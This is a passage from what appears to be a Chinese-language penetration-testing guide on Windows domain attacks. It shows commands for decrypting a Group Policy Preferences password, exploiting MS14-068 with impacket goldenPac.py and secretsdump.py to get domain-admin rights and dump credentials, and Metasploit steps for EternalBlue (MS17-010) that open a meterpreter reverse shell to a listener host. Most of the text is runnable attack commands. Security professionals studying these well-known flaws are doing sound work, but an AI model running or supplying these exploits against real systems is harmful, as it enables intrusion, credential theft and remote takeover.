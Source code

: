           *   * 
    
    
    
    #Kali上的工具gpp-decrypt可以用来解密：gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

`（向右滑动、查看更多）`

##  

##  **  0x03MS14-068 **

  
PAC校验缺陷，导致可以伪造PAC，并且KDC可以正确解析放在TGT外（非预期位置）的PAC。以上两点导致可以从普通域用户提升到域管权限。

    
          *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
    #impacket工具包的goldenPac.pypython goldenPac.py -dc-ip 192.168.107.146 -target-ip 192.168.107.146 test.com/user:password@dc.test.com#-dc-ip 是主域控的ip地址#-target-ip 也是主域控的ip地址#test.com 是域名#user是当前域用户#user冒号后面是当前域用户的密码#@ 后输入主域计算机名 比如:dc.test.com-------------------------------------------------------------------------------------------------------------------#会生成ccache票据ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码export KRB5CCNAME=ticket.ccachepython secretsdump.py -k -no-pass test5-2012.hack.org -just-dc

`（向右滑动、查看更多）`

##  

##  **  0x04EhernalBlue(MS17-010) **

  
 **SMBv1 和 NBT 中的远程代码执行漏洞**  
适用：WindowsNT，Windows2000、Windows XP、Windows 2003、Windows Vista、Windows
7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。（包括但不限于）

    
          *   *   *   * 
    
    
    
    use auxiliary/scanner/smb/smb_ms17_010             #扫描是否存在该漏洞set rhosts 10.10.10.14    #设置目标主机的IP,也可以设置整个IP段set threads 10exploit

（向右滑动、查看更多）  

  *   *   *   *   *   * 

    
    
    use exploit/windows/smb/ms17_010_eternalblue    #漏洞利用set rhosts 10.10.10.14                          #设置目标主机的IP,也可以设置整个IP段set payload windows/x64/meterpreter/reverse_tcpset lhost 10.10.10.147set lport 4444exploit
    
    
    （向右滑动、查看更多）  
    
    
          *   *   *   * 
    
    